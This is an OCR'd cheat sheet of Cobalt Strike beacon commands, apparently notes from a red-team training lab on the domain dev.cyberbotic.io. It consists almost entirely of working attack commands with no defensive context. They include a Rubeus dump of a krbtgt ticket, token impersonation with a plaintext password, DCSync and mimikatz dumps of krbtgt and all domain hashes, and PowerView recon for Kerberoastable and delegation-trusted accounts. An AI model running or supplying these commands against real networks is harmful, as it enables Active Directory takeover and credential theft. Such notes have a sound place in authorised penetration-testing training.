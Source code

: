 # Dump the TGT Ticket from given Logon Session (LUID)
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x7049f /service:krbtgt

# DC Sync
beacon> make_token DEV\nlamb F3rrari
beacon> dcsync dev.cyberbotic.io DEV\krbtgt
beacon> mimikatz !lsadump::dcsync /all /domain:dev.cyberbotic.io
# Dump krbtgt hash from DC (locally)
beacon> mimikatz !lsadump::lsa /inject /name:krbtgt

Domain Recon

    Domain Recon using Power View

# Load Powerview powershell script in Beacon Session (Cobalt Strike)
beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1

# Get Domain Information
beacon> powerpick Get-Domain -Domain <>

# Get Domain SID
beacon> powerpick Get-DomainSID

# Get Domain Controller
beacon> powerpick Get-DomainController | select Forest, Name, OSVersion | fl

# Get Forest Information
beacon> powerpick Get-ForestDomain -Forest <>

# Get Domain Policy 
beacon> powerpick Get-DomainPolicyData | select -expand SystemAccess

# Get Domain users
beacon> powerpick Get-DomainUser -Identity jking -Properties DisplayName, MemberOf | fl

# Identify Kerberoastable/ASEPRoastable User/Uncontrained Delegation
beacon> powerpick Get-DomainUser | select cn,serviceprincipalname
beacon> powerpick Get-DomainUser -PreauthNotRequired
beacon> powerpick Get-DomainUser -TrustedToAuth
